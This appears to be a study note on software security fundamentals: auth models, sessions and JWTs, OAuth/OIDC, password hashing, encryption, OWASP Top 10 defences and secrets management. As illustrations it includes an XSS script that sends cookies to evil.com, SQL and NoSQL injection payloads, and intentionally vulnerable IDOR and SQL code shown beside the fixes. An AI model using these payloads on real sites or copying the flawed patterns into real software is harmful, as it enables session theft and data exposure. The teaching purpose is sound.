

# Security Fundamentals

> [!summary] What you'll learn
> The security knowledge every software engineer is expected to have, and that comes up in design interviews ("how do users log in?", "how do you secure this API?") and in nearly every code review: **authentication vs authorization**, **authorization models** (RBAC, ABAC, ReBAC), **sessions vs JWTs**, **OAuth 2.0 and OpenID Connect**, **password storage**, **encryption** (in transit, at rest, hashing, HMAC), the **OWASP Top 10** web vulnerabilities and their defenses (including CSRF and CORS), **secrets management**, and broader practices (least privilege, zero trust, threat modeling, compliance).
>
> Each topic: the threat or problem → how the mechanism works → how to apply it correctly → common mistakes.

Back to [[Design Index]] · Prev: [[Reliability & Observability]] · Related: [[API Design]]

---

## Authentication vs Authorization

| | **Authentication (AuthN)** | **Authorization (AuthZ)** |
|---|---|---|
| Question | **Who are you?** Prove your identity | **What are you allowed to do?** |
| Happens | First | After authentication, on every protected action |
| Mechanisms | Passwords, MFA codes, passkeys, SSO/OIDC, API keys, client certificates | Roles, permissions, ownership checks, policies |
| HTTP failure code | **401 Unauthorized** (confusingly named: it means *unauthenticated*) | **403 Forbidden** |

Example: logging into GitHub is authentication. Whether you can push to a particular repository is authorization.

### Multi-factor authentication (MFA)
Combine factors from different categories: something you **know** (password), something you **have** (phone authenticator app, hardware key), something you **are** (biometrics). MFA blocks the vast majority of account takeovers from stolen passwords. SMS codes are the weakest second factor (SIM-swap attacks); authenticator apps (TOTP) are better; **hardware keys and passkeys** (WebAuthn/FIDO2) are best because they're phishing-resistant.

### Passkeys
Passwordless login based on public-key cryptography (WebAuthn): the device stores a private key and proves possession with a biometric or PIN; the server stores only a public key. There's nothing to phish or leak from a server breach. Increasingly the industry direction (Apple, Google, Microsoft support).

---

## Authorization models

### RBAC (Role-Based Access Control)
Users are assigned **roles**; roles grant **permissions**.
```
roles:  admin  → [users:read, users:write, orders:read, orders:refund]
        support → [users:read, orders:read]
        customer → [orders:read:own]
```
- ✅ Simple, auditable, the most common model.
- ❌ "Role explosion" when you need fine-grained exceptions ("support in EU can refund orders under $50").

### ABAC (Attribute-Based Access Control)
Decisions come from **policies** evaluated over attributes of the user, resource, action, and environment:
> Allow `refund` if `user.department == "support"` AND `order.amount < 50` AND `user.region == order.region` AND during business hours.
- ✅ Very flexible. ❌ Harder to reason about and audit. Tools: AWS IAM policies, Open Policy Agent (OPA), Cedar.

### ReBAC (Relationship-Based Access Control)
Permissions derive from **relationships** in a graph: "you can edit a document if you're its owner, or an editor of the folder that contains it, or a member of a team that's an editor of that folder."
- The model behind Google Drive/Docs sharing, described in Google's **Zanzibar** paper. Open-source implementations: **OpenFGA**, **SpiceDB**, Ory Keto.
- ✅ Natural for collaborative apps with sharing and nested containers.

### ACLs (Access Control Lists)
Each resource stores a list of who can do what to it ("file X: alice=read/write, bob=read"). Simple for per-object sharing; hard to manage at scale.

### Principles that apply to every model
- **Least privilege**: grant only the minimum permissions needed, for the minimum time.
- **Deny by default**: if no rule allows an action, it's denied.
- **Check on the server, on every request.** Never rely on the UI hiding a button; attackers call your API directly.
- **Check ownership, not just authentication.** The single most common serious API vulnerability is **IDOR / Broken Object Level Authorization**:

```javascript
// ❌ IDOR: any logged-in user can read ANY invoice by changing the ID in the URL
app.get("/invoices/:id", requireLogin, async (req, res) => {
  res.json(await db.invoices.findById(req.params.id));
});

// ✅ Scope the query to the authenticated user (or check permissions explicitly)
app.get("/invoices/:id", requireLogin, async (req, res) => {
  const invoice = await db.invoices.findOne({ id: req.params.id, ownerId: req.user.id });
  if (!invoice) return res.sendStatus(404);    // 404 rather than 403 avoids revealing it exists
  res.json(invoice);
});
```

---

## Sessions vs tokens (JWT)

After a user logs in, every subsequent request must prove who they are without sending the password each time. Two main approaches.

### Server-side sessions
1. On login, the server creates a **session record** (user ID, expiry, metadata) in a store (Redis, a database) under a random, unguessable **session ID**.
2. The server sends the session ID in a cookie: `Set-Cookie: sid=8f3a...; HttpOnly; Secure; SameSite=Lax; Path=/`.
3. The browser automatically sends the cookie with each request; the server looks up the session.

- ✅ **Easy revocation**: delete the session (log out everywhere, ban a user, rotate on password change).
- ✅ Small cookie; no sensitive data on the client.
- ❌ A lookup on every request (fast with Redis); the session store must be shared across app servers (not in-process memory) to stay [[Scalability & Core Concepts#Stateless services: the key to horizontal scaling|stateless]].

### JWT (JSON Web Token)
A self-contained token: `header.payload.signature`, each part Base64URL-encoded.
```
header:  { "alg": "RS256", "typ": "JWT" }
payload: { "sub": "user_42", "roles": ["customer"], "iat": 1761980000, "exp": 1761980900, "iss": "auth.example.com" }
signature: RS256( base64(header) + "." + base64(payload), privateKey )
```
- The server (or any service with the **public key**, for RS256/ES256) **verifies the signature** and checks `exp`, `iss`, and `aud`. **No database lookup needed**, so the token is "stateless," and any service in a microservice system can verify it independently.
- **HS256** uses one shared secret (simpler, but every verifier can also *create* tokens); **RS256/ES256** use a private key to sign and a public key to verify (better for many services; publish keys via a JWKS endpoint).

**JWT pitfalls:**
- ❌ **Hard to revoke**: a valid token works until it expires, even after logout or a password change. Mitigations: **short-lived access tokens** (5–15 minutes) plus **refresh tokens**; a denylist of revoked token IDs (which reintroduces a lookup).
- ❌ **The payload is readable by anyone** (Base64 is encoding, not encryption). Never put secrets or sensitive personal data in it.
- ❌ Classic implementation bugs: accepting `alg: none`, not verifying the signature, not checking expiry, algorithm confusion attacks. **Use a well-maintained library** and pin the expected algorithm.
- ❌ Tokens can get large (sent on every request).

### The common modern pattern: access + refresh tokens
- **Access token**: short-lived (minutes), sent with each API request (`Authorization: Bearer ...`).
- **Refresh token**: long-lived (days or weeks), stored securely, used only to get new access tokens from the auth server. It can be **revoked** (stored server-side) and **rotated** (each use issues a new refresh token and invalidates the old one, which helps detect theft).

### Where to store tokens in a browser
| Storage | XSS risk (malicious script steals it) | CSRF risk (another site triggers requests) |
|---|---|---|
| `localStorage` / `sessionStorage` | ❌ **Readable by any JS** on the page; one XSS bug leaks all tokens | ✅ Not sent automatically |
| **`HttpOnly` cookie** | ✅ **Not readable by JS** | ⚠️ Sent automatically, so protect with `SameSite` + CSRF tokens |
| In memory (JS variable) | Somewhat better (lost on refresh) | ✅ |

Most security guidance favors **`HttpOnly; Secure; SameSite` cookies** for browser apps (often holding the refresh token or a session ID), with CSRF defenses.

### Sessions or JWTs?
- **Traditional web app with one backend** → server-side sessions are simpler and easier to revoke.
- **Many services that each verify identity, mobile apps, third-party API access** → JWT access tokens (short-lived) + refresh tokens, usually issued by a dedicated auth service or provider.

---

## OAuth 2.0 and OpenID Connect (OIDC)

### The problem OAuth solves
Before OAuth, if a third-party app wanted access to your Gmail contacts, you'd give it your **Google password**, giving it full access to everything, forever, with no way to revoke it separately. **OAuth 2.0** is a **delegated authorization** framework: you approve a specific app to access specific resources (**scopes**) on your behalf, and the app receives an **access token** instead of your password. You can revoke it anytime.

### The roles
- **Resource owner**: the user.
- **Client**: the app wanting access (your web or mobile app).
- **Authorization server**: issues tokens after the user authenticates and consents (Google, GitHub, Auth0, Okta, Cognito, Keycloak).
- **Resource server**: the API holding the data (Google Calendar API), which accepts access tokens.

### OIDC adds authentication
OAuth on its own is about **authorization** (access to resources); it doesn't standardize **who the user is**. **OpenID Connect** is a layer on top of OAuth 2.0 that adds an **ID token** (a JWT with user identity claims: `sub`, `email`, `name`) and a `userinfo` endpoint. **"Sign in with Google / Apple / GitHub / Microsoft" is OIDC.**

**SAML** is an older XML-based standard for enterprise single sign-on (logging into corporate apps through Okta or Microsoft Entra ID). You'll see it in B2B products.

### Authorization Code flow with PKCE (the recommended flow for web and mobile apps)

- The **authorization code** travels through the browser, but it's useless alone: exchanging it requires the **code_verifier** that only your app knows (**PKCE**, Proof Key for Code Exchange), which prevents intercepted codes from being used.
- The **`state`** parameter prevents CSRF attacks on the login flow.
- Other grant types: **Client Credentials** (service-to-service, no user involved); **Device Authorization** (smart TVs and CLIs: "go to example.com/device and enter code ABCD"). **Deprecated:** the Implicit flow and the Resource Owner Password flow.

> [!tip] In practice
> Don't build your own identity provider. Use a managed service (Auth0, Okta, AWS Cognito, Firebase Auth, Clerk, Supabase Auth) or a mature open-source one (Keycloak). Authentication is a **generic subdomain** ([[Domain-Driven Design#Domain and subdomains]]).

---

## Password storage

### The threat
Databases get breached. If passwords are stored in plaintext or with a fast hash, attackers recover them quickly, and since people reuse passwords, they then break into users' other accounts.

### The rules
1. **Never store plaintext passwords**, and never store them with reversible encryption.
2. **Hash them with a slow, salted, adaptive password-hashing function**:
   - **Argon2id**: current best choice (the winner of the Password Hashing Competition; memory-hard, so it resists GPU cracking).
   - **bcrypt**: widely used, still solid (limit: 72-byte input).
   - **scrypt**, **PBKDF2** (acceptable, PBKDF2 needs very high iteration counts).
3. **Salt**: a unique random value per password, stored alongside the hash. It makes identical passwords produce different hashes and defeats precomputed **rainbow tables**. Argon2 and bcrypt generate and embed salts automatically.
4. **Work factor**: tune so a hash takes ~100–500 ms on your servers, and increase it as hardware gets faster.
5. Optional **pepper**: an application-wide secret mixed in, stored outside the database (e.g., in a secrets manager), so a DB-only leak isn't enough.

**Why not SHA-256 or MD5?** They're designed to be **fast**: a modern GPU computes **billions** of SHA-256 hashes per second, so attackers can try every common password almost instantly. Password hashing functions are deliberately slow and memory-hungry.

```javascript
import bcrypt from "bcrypt";
const hash = await bcrypt.hash(password, 12);            // cost factor 12; salt generated and embedded
const ok = await bcrypt.compare(attempt, hash);          // constant-time comparison
```

### Also protect the login flow
Rate-limit and add backoff on login attempts (per account and per IP); support MFA; check new passwords against known-breached lists (e.g., Have I Been Pwned's k-anonymity API); return the **same error** for "unknown user" and "wrong password" (don't reveal which accounts exist); make password reset tokens single-use, random, and short-lived.

---

## Encryption basics

### Encryption in transit
Protects data **moving across networks** from eavesdropping and tampering.
- **TLS (HTTPS) everywhere**: browser ↔ server, and increasingly **service ↔ service inside your network** too.
- **mTLS (mutual TLS)**: **both** sides present certificates, so services authenticate each other. Service meshes (Istio, Linkerd) automate this, which is a core part of zero-trust networking.
- **HSTS** header: tells browsers to always use HTTPS for your domain.

### Encryption at rest
Protects **stored data** if disks, backups, or snapshots are stolen or improperly accessed.
- Disk/volume encryption and database encryption (usually **AES-256**), often managed by the cloud provider and enabled by default.
- **Key management services (KMS)** (AWS KMS, Google Cloud KMS, Azure Key Vault, HashiCorp Vault) store and control access to encryption keys, log key usage, and rotate keys. The application never handles master keys directly.
- **Envelope encryption**: data is encrypted with a **data key**; the data key itself is encrypted with a **master key** held in KMS. This allows fast local encryption, easy key rotation, and centralized control.
- **Field-level / application-level encryption** for especially sensitive fields (SSNs, health data), so even DB admins or a SQL injection can't read them in plaintext.

### Symmetric vs asymmetric cryptography
| | **Symmetric** | **Asymmetric (public-key)** |
|---|---|---|
| Keys | One shared secret key encrypts and decrypts | A **public key** (shareable) and a **private key** (secret) |
| Speed | Fast | Much slower |
| Examples | AES, ChaCha20 | RSA, Elliptic Curve (ECDSA, Ed25519), Diffie-Hellman |
| Used for | Bulk data encryption | Key exchange, digital signatures, certificates, TLS handshakes, SSH keys, JWT RS256 |

TLS uses **both**: asymmetric crypto during the handshake to authenticate the server and agree on a key, then symmetric encryption for the actual data.

### Hashing vs encryption vs encoding (often confused)
| | Reversible? | Needs a key? | Purpose | Examples |
|---|---|---|---|---|
| **Encoding** | Yes, by anyone | No | Represent data in another format | Base64, URL encoding, UTF-8 |
| **Encryption** | Yes, with the key | Yes | Confidentiality | AES, RSA |
| **Hashing** | **No** (one-way) | No | Integrity checks, fingerprints, password storage (with slow hashes) | SHA-256, BLAKE3; Argon2/bcrypt for passwords |

### HMAC (Hash-based Message Authentication Code)
A hash computed over a message **together with a secret key**. Anyone with the key can verify that the message **came from someone who knows the key** and **wasn't modified**.
- **Used for:** **webhook signatures** (Stripe, GitHub sign payloads; you recompute the HMAC and compare), JWT HS256, signed URLs and cookies, API request signing (AWS Signature v4).
- Compare signatures with a **constant-time** comparison to avoid timing attacks.

### End-to-end encryption (E2EE)
Only the communicating **endpoints** can decrypt messages; the server stores and relays **ciphertext** it can't read. The **Signal Protocol** powers Signal, WhatsApp, and Messenger's E2EE. Tradeoff: the server can't search, scan, or recover messages.

---

## OWASP Top 10 and common web vulnerabilities

The **OWASP Top 10** is the industry-standard list of the most critical web application security risks. Know what each is and how to prevent it.

| Risk | What it is / example | How to prevent it |
|---|---|---|
| **Broken Access Control** (the #1 risk) | Users act outside their permissions: **IDOR** (`/invoices/124` shows someone else's invoice), missing auth checks on admin endpoints, privilege escalation by changing a `role` field in a request | Server-side checks on every request; deny by default; scope queries by owner; never trust client-supplied roles or IDs for authorization; tests for authorization rules |
| **Cryptographic Failures** | Sensitive data exposed: plaintext passwords, HTTP instead of HTTPS, weak/outdated algorithms (MD5, SHA-1, DES), hardcoded keys | TLS everywhere; proper password hashing; KMS-managed keys; encrypt sensitive data at rest; don't store data you don't need |
| **Injection** (SQL, NoSQL, OS command, LDAP...) | Untrusted input is interpreted as code. `"SELECT * FROM users WHERE email = '" + input + "'"` with input `' OR '1'='1` returns every user | **Parameterized queries / prepared statements** (never build queries by string concatenation); ORMs and query builders; validate input; avoid passing user input to shells; least-privilege DB accounts |
| **Cross-Site Scripting (XSS)** (grouped under injection) | Attacker-supplied content is rendered as HTML/JS in other users' browsers, e.g., a comment containing `<script>fetch('https://evil.com?c='+document.cookie)</script>` | **Escape/encode output** by context (React escapes by default; be careful with `dangerouslySetInnerHTML`, `innerHTML`, `v-html`); sanitize HTML you must allow (DOMPurify); **Content-Security-Policy** header; `HttpOnly` cookies |
| **Insecure Design** | Flaws in the design itself, e.g., no rate limit on password reset, guessable reset tokens, business logic that lets coupons stack infinitely | Threat modeling during design; secure design patterns; abuse-case testing |
| **Security Misconfiguration** | Default credentials, public S3 buckets, verbose error pages with stack traces, debug mode in production, overly permissive CORS, unnecessary open ports | Hardened, minimal configurations; infrastructure as code with review; automated config scanning; separate dev/prod settings |
| **Vulnerable and Outdated Components** | Dependencies with known CVEs (the Log4Shell vulnerability in Log4j, 2021; compromised npm packages) | Dependency scanning (Dependabot, Snyk, `npm audit`); keep dependencies updated; minimize dependencies; software bill of materials (SBOM) |
| **Identification and Authentication Failures** | Credential stuffing, weak passwords allowed, no MFA, session IDs in URLs, sessions not invalidated on logout | MFA; rate limiting; breached-password checks; secure session management; use proven auth providers/libraries |
| **Software and Data Integrity Failures** | Trusting unsigned code/updates, compromised CI/CD pipelines, **insecure deserialization** of untrusted data | Signed artifacts and commits; protected CI pipelines with least-privilege tokens; verify integrity (subresource integrity for CDN scripts) |
| **Security Logging and Monitoring Failures** | Breaches go undetected for months | Log authentication events and sensitive actions (audit logs); alert on anomalies; retain logs |
| **Server-Side Request Forgery (SSRF)** | Your server fetches a URL supplied by a user (e.g., "import image from URL"), and the attacker points it at internal services like the cloud metadata endpoint `169.254.169.254` to steal credentials | Allowlist destinations; block private/internal IP ranges (after DNS resolution); use IMDSv2 on AWS; isolate fetchers |

(OWASP updates the list every few years; a 2025 revision reorganized some categories, adding software supply-chain failures and mishandling of exceptional conditions. The core risks above remain the ones to know.)

### SQL injection: before and after
```javascript
// ❌ Vulnerable: input becomes part of the SQL code
const rows = await db.query(`SELECT * FROM users WHERE email = '${req.body.email}'`);

// ✅ Parameterized: input is always treated as data, never as SQL
const rows = await db.query("SELECT * FROM users WHERE email = $1", [req.body.email]);
```
MongoDB has its own version (**NoSQL injection**): passing `{ "$gt": "" }` as a password field. Validate types (e.g., with zod/Joi) so objects can't be passed where strings are expected.

### CSRF (Cross-Site Request Forgery)
**The attack:** you're logged into `bank.com` (session cookie stored). You visit `evil.com`, which contains a hidden form that POSTs to `bank.com/transfer`. Your browser **automatically attaches your bank cookie**, so the bank sees an authenticated request you never intended.

**Defenses:**
- **`SameSite` cookies** (`Lax` or `Strict`): the browser won't send the cookie on cross-site POSTs. Modern browsers default to `Lax`, which blocks most CSRF.
- **CSRF tokens**: a random token embedded in your own forms or headers that the attacker's page can't read; the server rejects requests without it.
- Check the `Origin` / `Referer` headers on state-changing requests.
- APIs using `Authorization: Bearer` headers (not cookies) aren't vulnerable to classic CSRF, because browsers don't attach those headers automatically.

### CORS (Cross-Origin Resource Sharing)
Browsers enforce the **same-origin policy**: JavaScript on `app.example.com` can't read responses from `api.other.com` unless that server **explicitly allows it** with headers like `Access-Control-Allow-Origin: https://app.example.com`. For non-simple requests, the browser first sends an `OPTIONS` **preflight** request.
- **CORS is not a server-side security control.** It doesn't stop attackers (they can call your API from curl or a server). It controls which **browser** origins can read responses.
- **Common misconfiguration:** reflecting any `Origin`, or using `*` together with credentials. Allowlist your actual frontend origins.

---

## Secrets management

**The threat:** API keys, database passwords, and private keys committed to Git get leaked (public repos are scanned by bots within minutes; private repos leak via forks, laptops, and contractors). Leaked cloud keys get used for crypto-mining or data theft within hours.

**Practices:**
- **Never commit secrets.** Use `.env` files locally (listed in `.gitignore`) and environment variables or mounted files in production.
- Store production secrets in a **secrets manager**: AWS Secrets Manager / SSM Parameter Store, HashiCorp Vault, Google Secret Manager, Azure Key Vault, Doppler. They provide access control, auditing, and rotation.
- **Prefer short-lived, automatically issued credentials** over long-lived keys: cloud IAM roles for instances and containers, Kubernetes workload identity, GitHub Actions OIDC federation to AWS/GCP (no stored cloud keys at all).
- **Rotate** secrets regularly and immediately after any suspected exposure. **Rewriting git history isn't enough**: assume a leaked secret is compromised and rotate it.
- **Scan** for leaked secrets: GitHub secret scanning and push protection, gitleaks, trufflehog, pre-commit hooks.
- Give each service its **own credentials** with least privilege (the image-resizer doesn't need database write access).

---

## Broader security practices

- **Input validation at every trust boundary**: API requests, file uploads (check type and size, scan, store outside the web root, serve from a separate domain), webhooks, messages from queues, third-party API responses. Validate with schemas (zod, Joi, JSON Schema); use **allowlists** over denylists.
- **Output encoding**: encode data for the context where it's used (HTML, attributes, JavaScript, URLs, SQL).
- **Rate limiting and bot protection** on login, signup, password reset, and expensive endpoints ([[Design a Rate Limiter]]).
- **DDoS protection**: CDN and edge providers (Cloudflare, AWS Shield, Google Cloud Armor), autoscaling, and rate limits.
- **WAF (Web Application Firewall)**: filters common attack patterns (SQL injection strings, known exploit signatures) at the edge. A useful extra layer, not a substitute for secure code.
- **Security headers**: `Content-Security-Policy`, `Strict-Transport-Security`, `X-Content-Type-Options: nosniff`, `Referrer-Policy`, and `frame-ancestors` (in CSP) or `X-Frame-Options` against clickjacking.
- **Zero Trust**: don't trust a request just because it comes from "inside the network." Authenticate and authorize every request, between services too (Google's **BeyondCorp** model).
- **Defense in depth**: multiple independent layers of protection, so one failure isn't catastrophic.
- **Audit logging**: record who did what and when for sensitive actions (permission changes, data exports, admin actions), stored tamper-resistantly.
- **Least privilege everywhere**: IAM roles, database users, API scopes, employee access.
- **Threat modeling**: during design, systematically ask what could go wrong. The **STRIDE** mnemonic: **S**poofing (identity), **T**ampering (data), **R**epudiation (denying actions), **I**nformation disclosure, **D**enial of service, **E**levation of privilege.
- **Compliance awareness** (you don't need to be an expert, but recognize the names):
  - **GDPR** (EU) / **CCPA** (California): personal data rights, consent, the right to deletion, data residency.
  - **HIPAA** (US health data).
  - **PCI-DSS** (payment cards): the easiest way to comply is to never touch card data. Use Stripe Elements or a hosted checkout so card numbers never reach your servers.
  - **SOC 2**: an audit of security controls that B2B customers often require.

---

## Quick self-test
- [ ] AuthN vs AuthZ; 401 vs 403.
- [ ] RBAC vs ABAC vs ReBAC: an example where each fits best.
- [ ] What is IDOR? Show the vulnerable code and the fix. How would you catch it in code review?
- [ ] Sessions vs JWTs: tradeoffs. How do you "log out" a JWT? Why use short-lived access tokens with refresh tokens?
- [ ] Why is storing tokens in `localStorage` risky? What does `HttpOnly` protect against, and what does `SameSite` protect against?
- [ ] OAuth vs OIDC: what does each provide? Walk through the authorization code flow with PKCE.
- [ ] How should passwords be stored? Why not SHA-256? What does a salt do?
- [ ] Symmetric vs asymmetric encryption; hashing vs encryption vs encoding. What's HMAC used for?
- [ ] How do you prevent SQL injection, XSS, CSRF, and SSRF?
- [ ] Is CORS a security control for your API? Explain.
- [ ] A developer accidentally pushed an AWS key to GitHub. What do you do?

Next: [[Design a URL Shortener]]
